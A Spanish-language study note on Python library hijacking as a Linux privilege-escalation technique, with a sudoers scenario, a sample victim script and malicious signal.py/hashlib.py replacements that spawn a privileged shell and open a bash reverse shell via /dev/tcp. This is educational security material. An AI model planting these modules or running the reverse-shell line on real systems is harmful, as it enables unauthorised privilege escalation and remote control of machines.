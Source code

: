 -----
- Tags: #escalada #teoria #practica
-----


# Python Library Hijacking 

Cuando hablamos de **Python Library Hijacking**, a lo que nos referimos es a una técnica de ataque que aprovecha la forma en la que Python busca y carga bibliotecas para inyectar código maliciosos en un script. El ataque se produce cuando un atacante re o modifica una biblioteca en una ruta accesible por el script de Python, de tal manera que cuando el script la importa, se carga la versión maliciosa en lugar de la legítima. 

La forma en que el ataque se lleva a cabo es la siguiente: el atacante busca una biblioteca utilizad por el script y la reemplazas por su propia versión maliciosa. Esta biblioteca puede ser una biblioteca estándar de Python o una biblioteca externa descargada e instalada por el usuario. El atacante coloca  su versión maliciosa en una ruta accesible antes que la biblioteca legítima sea encontrada.

En genera, Python comienza buscando estas bibliotecas en el directorio actual de trabajo y luego en las rutas definidas en la variable sys.path. Si el atacante tiene acceso de escritura en alguna de las rutas definidas en sys.path, puede colocar allí su propia versión maliciosa de la biblioteca y hacer que el script cargue en lugar de la legítima.

Además, el atacante también puede crear su propia biblioteca en el directorio actual de trabajo, ya que Python comienza la búsqueda en este directorio por defecto. Si durante la carga de estas librerías desde el script legítimo, el atacante logra secuestrarlas, entonces conseguirá una ejecución alternativa del programa. 

# Escalada 

Supongamos que estamos en un sistema con el usuario **dobliuw** (El cual tenemos en poder) y otro usuario con mayores privilegios llamado **admin**, en el archivo de **/etc/sudoers** esta declarada la sentencia **dobliuw ALL=(admin)  NOPASSWD: /usr/bin/python3 /home/admin/myFirstScript.py**, lo cual al hacer **sudo -l** como el usuario dobliuw vemos que podemos ejecutar un script llamado *myFirstScript.py* como el usuario *admin* sin  proporcionar contraseña con python3. 

El script es algo básico como lo siguiente: 

```python
#!/usr/bin/python3
import time, hashlib, signal, sys

def ctrl_c(sig, frame):
	print("\n\n\t[!] Quiting...\n\n")
	sys.exit(1)

signal.signal(signal.SIGINT, ctrl_c) 

def main():
	name = str(input("Please insert your name: "));
	time.sleep(2)
	print("\n\n\t[!] Oh I understand now... Hello {} ({})\n\n".format(name,hashlib.md5(name.encode()).hexdigest()))


if __name__ == "__main__":
	main()
```
#### Es un script x de ejemplo, podría ser cualquier tipo de script. 

En este momento es cuando, en caso de tener permiso de escritura en el directorio en el cual se encuentra el script (*/home/admin*) o tenerlo en alguna de las carpetas en donde python busca las librerías (**python3 -c 'import sys; print(sys.path)'** para ver los paths) o incluso teniendo permisos de escritura en alguna de las librerías que se importa el script, en este caso *hashlib*, *signal*, etc. podríamos acontecer un *Python Library Hijacking*.

Por ejemplo podríamos crear el script (En la carpeta de trabajo o alguna de las otras), o incluso modificar la librería original para ingresar código malicioso que ejecute alguna acción, por ejemplo espawnear una consola como el usuario administrador aprovechando que podemos ejecutar el script como dicho usuario gracias a los permisos SUID, o enviarla a un equipo remoto, etc.

#### signal.py  ||  hashlib.py
```python
# Spawnear una consola como el usuario admin
import os

os.system("bash -p")

#############################################3

# Enviar una reverse shell como el usuario admin a un dispositivo remoto 
import subprocess

subprocess.Popen(["bash -c 'bash -i &>/dev/tcp/{ip}/{port} 0>&1'"], shell=True)
```

Una vez teniendo el código malicioso en un nuevo archivo en el directorio de trabajo con el nombre de una de las librerías importadas en el script original, o habiendo modificado la librería real bastaría con ejecutar el script como el usuario *admin* aprovechando los permisos garantizados en el archivo de sudoers y tendríamos la ejecución de los comandos deseados.  **sudo -u admin /usr/bin/python3 /home/admin/myFirstScript.py** 
